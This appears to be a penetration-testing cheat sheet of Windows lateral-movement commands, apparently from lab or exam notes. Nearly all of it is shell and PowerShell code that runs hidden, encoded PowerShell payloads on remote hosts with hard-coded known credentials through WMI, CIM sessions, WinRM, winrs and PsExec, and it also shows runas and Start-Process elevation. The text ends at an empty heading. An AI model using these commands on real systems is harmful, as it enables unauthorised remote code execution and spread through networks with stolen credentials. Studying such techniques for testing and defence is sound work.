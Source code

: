 ## WMI (rpc)
***runs as session 0***
```shell
# 1. Print payload
python3 ./encode.py

# 2
# cmd
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "powershell -nop -w hidden -e ..."

# PS CimSession
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$TARGET = 192.168.207.72
$session = New-Cimsession -ComputerName $TARGET -Credential $credential -SessionOption options
$Command = "powershell -nop -w hidden -e ..."
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$command};
```
## WinRm (RMU)
```shell
# 1. Print payload
python3 ./encode.py


# 2
# winrs
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop ..."

# PS PsSession
$username = 'jen'; # known user
$password = 'Nexus123!'; # known password
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$TARGET = 192.168.50.73
New-PSSession -ComputerName $TARGET -Credential $credential
Enter-PSSession 1
```
## psexec.exe (password,smb,printer)
```shell
.\PsExec.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
.\PsExec.exe -i \\192.168.50.80 -u offensive -p security ipconfig
.\PsExec.exe -i \\192.168.50.80 -u offensive -p security powershell

# https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
```
## runas / start-process (GUI)
```shell
# cmd
runas /user:[DOMAIN\]Administrator "cmd.exe /c powershell"
# /c (non-interactive) /k (interactive)

# PS
Start-Process PowerShell -Verb RunAs
```
## start-process (Non GUI)